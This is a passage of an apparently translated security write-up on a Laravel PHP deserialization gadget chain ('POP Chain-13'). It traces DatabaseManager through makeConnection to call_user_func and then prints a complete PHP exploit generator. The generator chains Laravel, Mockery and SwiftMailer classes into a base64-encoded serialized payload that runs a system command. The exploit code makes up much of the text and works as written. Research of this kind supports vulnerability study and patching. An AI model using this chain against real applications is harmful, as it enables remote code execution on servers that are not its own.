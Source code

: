 ![undefined](https://p0.ssl.qhimg.com/t018e7431dc08dd992c.png "undefined")

## POP Chain-13
The first half of the chain is the same as other chains before. As long as the `__call()` method can be triggered), then follow up on the `__call()` method in `src/Illuminate/Database/DatabaseManager.php`, which calls the `connection()` method, follow up. Here you need to enter the `makeConnection()` method to use the `call_user_func()` method to perform RCE

![undefined](https://p1.ssl.qhimg.com/t01041c2aa66c1f1cad.png "undefined")

![undefined](https://p0.ssl.qhimg.com/t01484d0c48b1130516.png "undefined")

Follow up on the `getConfig()` method and continue to follow up on the `Arr::get($connections, $name)`. You can see that the value of `$config` returned through the `get()` method is controllable. You can return the command execution function back, resulting in RCE

![undefined](https://p0.ssl.qhimg.com/t01d87acb0b55e8f265.png "undefined")

![undefined](https://p5.ssl.qhimg.com/t014d438b111c23f23c.png "undefined")

### exp
```php
<?php
namespace Illuminate\Database{
    class DatabaseManager{
        protected $app;
        protected $extensions ;
        public function __construct($payload)
        {
            $this->app['config']['database.default'] = $payload;
            $this->app['config']['database.connections'] = [$payload => 'system'];
            $this->extensions[$payload]='call_user_func';
        }
    }
}

namespace Mockery\Generator {
    use Illuminate\Database\DatabaseManager;
    class DefinedTargetClass {
        private $rfc;
        public function __construct($payload) {
            $this->rfc = new DatabaseManager($payload);
        }
    }
}

namespace {
    use Mockery\Generator\DefinedTargetClass;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new DefinedTargetClass($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP chain utilization flow chart

![undefined](https://p1.ssl.qhimg.com/t01e9eeb38689dddbee.png "undefined")